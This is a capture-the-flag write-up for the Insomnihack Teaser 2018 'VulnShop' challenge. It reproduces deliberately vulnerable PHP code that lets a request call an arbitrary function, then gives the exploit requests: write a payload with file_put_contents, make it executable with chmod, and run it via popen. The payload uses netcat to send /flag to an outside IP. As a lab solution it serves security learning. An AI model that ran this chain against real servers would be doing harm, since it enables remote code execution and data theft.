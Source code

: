 ```yaml
---
layout: post
title:  "InsomnihackTeaser2018 - VulnShop"
date:   2018-01-23 15:15
categories: [InsomnihackTeaser2018]
tags: [Web]
author: jbz
---
```


We're preparing a website for selling some important vulnerabilities in the future. You can browse some static pages on it, waiting for the official release.

Link: http://vulnshop.teaser.insomnihack.ch

Source:

```
 <?php if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; }
    error_reporting(0); session_start(); 
    // Anti XSS filter
    $_REQUEST = array_map("strip_tags", $_REQUEST);
    // For later, when we will store infos about visitors.
    chdir("tmp");
?>
<!DOCTYPE html>
<html>
    <head>
        <title>Work in progress...</title>
        <meta charset="utf-8" />
        <meta http-equiv="content-type" content="text/html; charset=utf-8" />
        <style>
            body {
                background-color: #aaa;
                color:#fff;
            }
            
            .page {
                width: 50%;
                margin: 0 auto;
                margin-top: 75px;
            }
            
            
            .menu ul li {
                display:inline-block;
                vertical-align:top;
                margin-right: 30px;
                
            }
        </style>
    </head>
    <body>
        <div class="page">
            <div class="menu">
                <ul>
                    <li><a href="?page=default">Home</a></li>
                    <li><a href="?page=introduction">Introduction</a></li>
                    <li><a href="?page=privacy">Privacy</a></li>
                    <li><a href="?page=contactus">Contact</a></li>
                </ul>
            </div>
            
            <div class="content">
                <?php
                        switch($_GET['page']) {
                            case 'default':
                            default:
                                echo "<p>Welcome to our website about infosec. It's still under construction, but you can begin to browse some pages!</p>";
                                break;
                            case 'introduction':
                                echo "<p>Our website will introduce some new vulnerabilities. Let's check it out later!</p>";
                                break;
                            case 'privacy':
                                echo "<p>This website is unbreakable, so don't worry when contacting us about some new vulnerabilities!</p>";
                                break;
                            case 'contactus':
                                echo "<p>You can't contact us for the moment, but it will be available later.</p>";
                                $_SESSION['challenge'] = rand(100000,999999);
                                break;
                            case 'captcha':
                                if(isset($_SESSION['challenge'])) echo $_SESSION['challenge'];
                                // Will make an image later
                touch($_SESSION['challenge']);
                                break;
                            case 'captcha-verify':
                // verification functions take a file for later, when we'll provide more way of verification
                                function verifyFromString($file, $response) {
                                    if($_SESSION['challenge'] === $response) return true;
                                    else return false;
                                }
                                
                                // Captcha from math op
                                function verifyFromMath($file, $response) {
                                    if(eval("return ".$_SESSION['challenge']." ;") === $response) return true;
                                    else return false;
                                }
                                if(isset($_REQUEST['answer']) && isset($_REQUEST['method']) && function_exists($_REQUEST['method'])){
                                    $_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);
                                }
                                break;

                        }
                ?>
            </div>
        </div>
        <p><a href="/?hl">View code source of the file, to be sure we're secure!</a></p>
        <p><a href="/phpinfo.php">Show our configurations</a></p>
    </body>
</html>

```

The challenge gives us a single file web application with no action available and it's source code.  
The only implemented functions are related to the generation and verification of a Captcha without any further use.

The whole application depend on the GET parameter `page` which makes available the following actions:

 *  (get=**contactus**) Generate a new captcha in session 

 ``` 
 $_SESSION['challenge'] = rand(100000,999999);
 ```

 *  (get=**captcha**) Print the current captcha and create an empty file in `/tmp/$captcha`

``` 
 echo $_SESSION['challenge']; 
 touch($_SESSION['challenge']);
```

 * (get=**captcha-verify**) Which executes the following code:

```
function verifyFromString($file, $response) {
    if($_SESSION['challenge'] === $response) return true;
    else return false;
}
   
function verifyFromMath($file, $response) {
    if(eval("return ".$_SESSION['challenge']." ;") === $response) return true;
    else return false;
}

if(isset($_REQUEST['answer']) && isset($_REQUEST['method']) && function_exists($_REQUEST['method'])){
    $_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);
}
```

So what does this code do?
In theory its purpose is to validate a captcha using the two defined functions `verifyFromMath` and `verifyFromString` however there are no check in place preventing the call of other PHP functions in `$_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);`. This allow us to call any arbitrary PHP function with the first argument set as `./$captcha` and the second argument read from `$_GET['answer']`.

From the phpinfo provided with the challenge:

```
disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,proc_open,system,shell_exec,exec,passthru,mail
```

Neither `popen`, `parse_ini_file` and any file manipulation function is there. So given the calling costraints of the first argument being the captcha file we can do the following:

 * Call `file_put_contets('./tmp/captcha', 'reverse_shell_payload');`
 * Call `chmod('./tmp/captcha/', 0755);`
 * Call `popen('./tmp/captcha/', 'r');`
 * Get the flag without even using the `eval` function provided

Which translates in the following requests:
 * `/?page=captcha-verify&method=file_put_contents&answer=nc 1.1.1.1 8080 < /flag`
 * `/?page=captcha-verify&method=chmod&answer=493`
 * `/?page=captcha-verify&method=popen&answer=r`


_Note_:
We used the number **493** in decimal in order to call chmod with **0755** in octal, from PHP documentation:

```
chmod("/somedir/somefile", 755);   // decimal; probably incorrect
chmod("/somedir/somefile", "u+rwx,go+rx"); // string; incorrect
chmod("/somedir/somefile", 0755);  // octal; correct value of mode
```

Unfortunately, using **0755** via **GET** won't work because the PHP interpreter will trim the leading 0 considering it useless as decimal and then will try to convert 755 decimal to octal getting an invalid set of permissions. **493** is the decimal form of **755** and so the automatic PHP conversion will work adding the executable permission to the file.

